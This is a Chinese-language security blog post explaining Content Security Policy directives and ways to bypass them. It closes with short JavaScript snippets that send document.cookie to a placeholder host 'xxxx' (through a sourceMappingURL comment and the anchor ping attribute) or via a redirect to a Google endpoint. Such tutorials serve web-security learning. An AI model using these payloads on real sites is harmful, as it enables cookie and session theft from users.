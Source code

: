 ```yaml
---
layout:		post
title:		By Pass CSP
data:		2016-11-01
author:		"dogewatch"
header-img:	"img/post-bg-2015.jpg"
tags:
    - web
---
```


> CSP is not safe enough

# CSP

CSP:Content Security Policy(内容安全策略)，其旨在减少跨站脚本攻击。由开发者定义一些安全性的策略声明，来指定可信的内容(脚本，图片，iframe，style，font等)来源。现代浏览器可以通过http头部的`Content-Security-Policy`来获取csp配置。指令如下表：

|     指令      |              说明              |
| :---------: | :--------------------------: |
| default-src |           定义默认加载策略           |
| connect-src |    定义ajax、websocket等加载策略     |
|  font-src   |          定义font加载策略          |
|  frame-src  |         定义frame加载策略          |
|   img-src   |           定义图片加载策略           |
|  media-src  |     定义audio、video等资源加载策略     |
| object-src  | 定义applet、embed、object等资源加载策略 |
| script-src  |           定义js加载策略           |
|  style-src  |          定义css加载策略           |
|   sandbox   |             沙箱选项             |
| report-uri  |             日志选项             |

一些属性值如下表：

|        属性值         |             示例             |                    说明                    |
| :----------------: | :------------------------: | :--------------------------------------: |
|         *          |         ing-src *          | 允许从任意url加载，除了data:blob:filesystem:schemes |
|       'none'       |     object-src 'none'      |               禁止从任何url加载资源               |
|       'self'       |       img-src 'self'       |                只可以加载同源资源                 |
|       data:        |    img-src 'self' data:    |              可以通过data协议加载资源              |
| domain.example.com | ing-src domain.example.com |               只可以从特定的域加载资源               |
|   *.example.com    |   img-src *.example.com    |         可以从任意example.com的子域处加载资源         |
|  https://cdn.com   |  img-src https://cdn.com   |            只能从给定的域用https加载资源             |
|       https:       |       img-src https:       |             只能从任意域用https加载资源             |
|  'unsafe-inline'   | script-src 'unsafe-inline' | 允许内部资源执行代码例如style attribute,onclick或者是sicript标签 |
|   'unsafe-eval'    |  script-src 'unsafe-eval'  |        允许一些不安全的代码执行方式，例如js的eval()        |

# CSP 绕过 

虽然csp对不同的资源，不同的加载权限都能够有一个比较明确的划分，但是这并不意味着就能彻底杜绝跨站脚本漏洞，因为在正常环境中，开发者也总会用跨站加载资源或者脚本的需求。试想一下，如果csp头设置成`default-src 'none'`，固然能够杜绝xss，但是这样也没几个网站能够正常使用了吧。

## 0x1 预加载

浏览器为了增强用户体验，让浏览器更有效率，就有一个预加载的功能，大体是利用浏览器空闲时间去加载指定的内容，然后缓存起来。这个技术又细分为DNS-prefetch、subresource、prefetch、preconnect、prerender。

HTML5页面预加载是用link标签的rel属性来指定的。如果csp头有`unsafe-inline`，则用预加载的方式可以向外界发出请求，例如：

```html
<!-- 预加载某个页面 -->
<link rel='prefetch' href='http://xxxx'><!-- firefox -->
<link rel='prerender' href='http://xxxx'><!-- chrome -->
<!-- 预加载某个图片 -->
<link rel='prefetch' href='http://xxxx/x.jpg'>
<!-- DNS 预解析 -->
<link rel="dns-prefetch" href="http://xxxx">
<!-- 特定文件类型预加载 -->
<link rel='preload' href='//xxxxx/xx.js'><!-- chrome -->
```

另外，不是所有的页面都能够被预加载，当资源类型如下时，讲阻止预加载操作：

1. URL中包含下载资源

2. 页面中包含音频、视频

3. POST、PUT和DELET操作的ajax请求

4. HTTP认证

5. HTTPS页面

6. 含恶意软件的页面

7. 弹窗页面

8. 占用资源很多的页面

9. 打开了chrome developer tools开发工具

## 0x2 一些其他特性 

   利用javascript或者某些标签的某种特性可以绕过`unsafe-inline`向外界发出请求。

1. jQuery sourcemap

   ```javascript
   document.write(`<script>
   //@ 	   sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);
   ```

2. a标签的ping属性

   ```javascript
   a=document.createElement('a');
   a.href='#';
   a.ping='http://xxxx/?' + document.cookie;
   a.click();
   ```

3. http 204

   ```javascript
   location='//www.google.com/csi?' + escape(document.cookie);
   ```

   ​

